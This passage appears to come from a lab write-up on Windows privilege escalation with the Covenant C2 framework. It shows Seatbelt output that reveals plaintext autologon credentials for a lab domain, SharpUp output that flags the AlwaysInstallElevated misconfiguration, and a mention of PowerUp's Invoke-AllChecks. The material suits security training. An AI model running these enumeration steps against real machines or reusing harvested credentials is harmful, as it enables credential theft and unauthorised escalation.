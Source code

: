 ```powershell

[*] Checking for modifidable registry autoruns and configs...



```

- Here we got autologin credentials. The same we can achieve with SeatBelt in Covenant.

```powershell
[07/24/2023 13:10:31 UTC] Seatbelt completed

(singhx) > Seatbelt WindowsAutoLogon



====== WindowsAutoLogon ======


  DefaultDomainName              : mayorsec

  DefaultUserName                : s.chisholm

  DefaultPassword                : FallOutBoy1!

  AltDefaultDomainName           : 

  AltDefaultUserName             : 

  AltDefaultPassword             : 


[*] Completed collection in 0.024 seconds
```

## 3. AlwaysInstalledElevated Misconfiguration

- To reveal the misconfiguration of AlwaysInstallElevated we can use Covenant's built-in tool called SharpUp audit.

```powershell
[07/24/2023 13:32:06 UTC] SharpUp completed

(singhx) > SharpUp audit

=== SharpUp: Running Privilege Escalation Checks ===

=== AlwaysInstallElevated Registry Keys ===

  HKLM:    1

  HKCU:    1
```
- We can achieve the same using PowerUp.ps1
- For this, we need to import PowerUp.ps1 and run the command `powershell invoke-allchecks`
